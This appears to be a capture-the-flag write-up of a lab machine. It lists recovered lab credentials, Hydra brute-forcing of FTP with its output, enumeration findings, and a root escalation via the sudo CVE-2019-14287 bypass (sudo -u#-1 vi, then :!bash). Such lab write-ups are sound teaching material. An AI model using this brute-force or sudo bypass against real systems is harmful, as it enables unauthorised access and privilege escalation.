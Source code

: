 ## Info 
### Credential
 User     | Password    | Service | Note
----------|-------------|---------|------
ftpuser   |5iez1wGXKfPKQ| FTP     |
eli       |DSpDiM1wAEwid|         |
gwendoline|MniVCQVhQHUNI|
### Web
- `/assets`
- `/sup3r_s3cr3t_fl4g.php`
### FTP
```
$ hydra -l ftpuser -P password $ip ftp
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2021-07-09 16:05:46
[DATA] max 16 tasks per 1 server, overall 16 tasks, 82 login tries (l:1/p:82), ~6 tries per task
[DATA] attacking ftp://10.10.203.10:21/
[21][ftp] host: 10.10.203.10   login: ftpuser   password: 5iez1wGXKfPKQ
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-07-09 16:06:05
```

### System
- Hidden file indicate at login: `/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`

- /etc/ppp/peers/provider, /etc/chatscripts/provider
- 127.0.0.1:631,25
- private key: /etc/ImageMagick-6/mime.xml
- /var/lib/apache2/site/enabled_by_admin/000-default
- Remote VNC file: /usr/share/mime/application/x-vnc.xml
- Wifi connection file!?
```
╔══════════╣ Searching wifi conns file
/etc/NetworkManager/system-connections/Wired connection 1
```
- group: video
- kernel version: 3.16.0-4-amd64 
- sudo version: 1.8.10p3
- DB
```
Found: /home/eli/.cache/tracker/meta.db: SQLite 3.x database
Found: /home/eli/.local/share/evolution/addressbook/system/contacts.db: SQLite 3.x database
Found: /home/eli/.local/share/zeitgeist/activity.sqlite: SQLite 3.x database
Found: /var/lib/apt/listchanges.db: Berkeley DB (Hash, version 9, native byte-order)
Found: /var/lib/colord/mapping.db: SQLite 3.x database
Found: /var/lib/colord/storage.db: SQLite 3.x database
```
- dbus: WAPSupplicant

## Path
### USer
**User `eli**
1. In `/assets/style.css`, it shows there is a page `/sup3r_s3cr3t_fl4g.php`. When goto that page, in the parameter of the redirect, it shows there is another page `/WExYY2Cv-qU`. In the page, it give us an `.png`. And at the end of the `.png` file, it give us the username of FTP and the password wordlist.
2. Crack the password and login to FTP, it give us user `eli`'s credential in Brainfuck.
**User `gwendoline`**
3. When logining as `eli`, it shows a message telling us we should find a hidden message.
```
1 new message
Message from Root to Gwendoline:

"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"

END MESSAGE
```
4. The hidden message is at `/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!`, and the file give us `gwendoline`'s password.
### Root
1. Login as gwendoline, I found the `sudo` version is < `1.8.28`, so there might suffer the vulnerability CVE-2019-14287.
```
$ sudo --version
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```
2. Check `gwendoline`'s sudo privilege, it shows `(ALL, !root)`, so we are likely able to do CVE-2019-14287.
```
$ sudo -l
Matching Defaults entries for gwendoline on year-of-the-rabbit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
``` 
3. Do CVE-2019-14287 and execute `bash` from `vi`, and, thus, gain root.
```
$ sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
:!bash
root@year-of-the-rabbit:/home/eli# whoami
root
```

